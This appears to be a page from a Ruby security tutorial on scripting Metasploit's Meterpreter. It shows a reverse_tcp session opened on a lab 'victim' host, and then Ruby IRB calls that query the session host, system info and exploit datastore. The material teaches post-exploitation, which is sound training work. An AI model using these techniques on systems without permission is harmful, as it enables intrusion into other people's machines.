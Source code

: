 # Meterpreter

From the official [wiki](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter), The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find Meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** \(e.g. getuid, getsystem, migrate, scraper, etc\). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist) not just use it.

To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts

Once you get the Meterpreter shell type `irb` to be dropped into ruby's IRB. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the IRB console, just like the follows

```text
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the Meterpreter client

>> require 'irb/completion'
=> true
```

If you would like to use `Pry` instead of `irb` then type `pry` and make the console more readable. Personally, I'd prefer `pry`

```ruby
meterpreter > pry
_pry_.prompt = proc { "-> " }
```

As you can see, you've been dropped to the IRB console with an instance variable called `client` of the running Meterpreter.

Try this as a start

```ruby
print_good("Rubyfu!")
```

* To list all associated methods with `client` instance

This will return an array.

```ruby
puts client.methods.sort
```

Let's to check some of the interesting methods there.

* Victim's IP address and port

```ruby
client.session_host
client.session_port
```

* Victim's computer information and plat form

```ruby
client.info
client.platform
```

Returns

```ruby
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

=> "x86/win32"
```

* Get the current exploit datastore

```ruby
client.exploit_datastore
# Or 
client.exploit.datastore
```

Returns a hash contains all the exploit information that result to this Meterpreter session

```ruby
{"VERBOSE"=>false, "WfsDelay"=>0, "EnableContextEncoding"=>false, "DisablePayloadHandler"=>false, "ExitOnSession"=>true, "ListenerTimeout"=>0, "payload"=>"windows/meterpreter/reverse_tcp", "LPORT"=>4444, "ReverseConnectRetries"=>5, "ReverseAllowProxy"=>false, "ReverseListenerThreaded"=>false, "PayloadUUIDTracking"=>false, "EnableStageEncoding"=>false, "StageEncoderSaveRegisters"=>"", "StageEncodingFallback"=>true, "PrependMigrate"=>false, "EXITFUNC"=>"process", "AutoLoadStdapi"=>true, "AutoVerifySession"=>true, "AutoVerifySessionTimeout"=>30, "InitialAutoRunScript"=>"", "AutoRunScript"=>"", "AutoSystemInfo"=>true, "EnableUnicodeEncoding"=>false, "SessionRetryTotal"=>3600, "SessionRetryWait"=>10, "SessionExpirationTimeout"=>604800, "SessionCommunicationTimeout"=>300, "lhost"=>"192.168.0.18", "ReverseListenerBindPort"=>0, "TARGET"=>0}
```

\[3\]: [https://dev.metasploit.com/documents/meterpreter.pdf](https://dev.metasploit.com/documents/meterpreter.pdf)

